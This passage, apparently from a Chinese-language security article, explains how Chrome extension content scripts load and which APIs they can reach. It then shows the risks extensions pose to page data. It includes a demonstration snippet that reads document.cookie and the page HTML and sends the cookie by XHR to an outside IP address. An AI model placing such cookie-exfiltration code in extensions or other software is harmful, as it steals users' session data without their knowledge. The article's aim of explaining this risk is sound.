 content_script js可以通过设置run_at来设置相对应脚本加载的时机。
- document_idle 为默认值，一般来说会在页面dom加载完成之后，window.onload事件触发之前
- document_start 为css加载之后，构造页面dom之前
- document_end 则为dom完成之后，图片等资源加载之前
并且，content_script js还允许通过设置all_frames来使得content_script js作用于页面内的所有frame，这个配置默认为关闭，因为这本身是个不安全的配置，这个问题会在后面提到。

在content_script js中可以直接访问以下Chrome Ext api：
- i18n
- storage
<li>runtime:
<ul>
- connect
- getManifest
- getURL
- id
- onConnect
- onMessage
- sendMessage
在了解完基本的配置后，我们就来看看content_script js可以对页面造成什么样的安全问题。

**安全问题**

对于content_script js来说，首当其中的一个问题就是，插件可以获取页面的dom，换言之，插件可以操作页面内的所有dom，其中就包括非httponly的cookie.

这里我们简单把content_script js中写入下面的代码

```
console.log(document.cookie);
console.log(document.documentElement.outerHTML);
var xhr = new XMLHttpRequest();
xhr.open("get", "http://212.129.137.248?a="+document.cookie, false);
xhr.send()
```

然后加载插件之后刷新页面

[![](https://p5.ssl.qhimg.com/t0158de1feef2be517b.png)](https://p5.ssl.qhimg.com/t0158de1feef2be517b.png)

可以看到成功获取到了页面内dom的信息，并且如果我们通过xhr跨域传出消息之后，我们在后台也成功收到了这个请求。

[![](https://p4.ssl.qhimg.com/dm/1024_58_/t01df51285f6884c2fb.png)](https://p4.ssl.qhimg.com/dm/1024_58_/t01df51285f6884c2fb.png)

这也就意味着，如果插件作者在插件中恶意修改dom，甚至获取dom值传出都可以通过浏览器使用者无感的方式进行。

在整个浏览器的插件体系内，各个层面都存在着这个问题，其中content_script js、injected script js和devtools js都可以直接访问操作dom，而popup js和background js都可以通过chrome.tabs.executeScript来动态执行js，同样可以执行js修改dom。

除了前面的问题以外，事实上content_script js能访问到的chrome api非常之少，也涉及不到什么安全性，这里暂且不提。

### popup/background js

popup js和backround js两个主要的区别在于加载的时机，由于他们不能访问dom，所以这两部分的js在浏览器中主要依靠事件驱动。

其中的主要区别是，background js在事件触发之后会持续执行，而且在关闭所有可见视图和端口之前不会结束。值得注意的是，页面打开、点击拓展按钮都连接着相应的事件，而不会直接影响插件的加载。
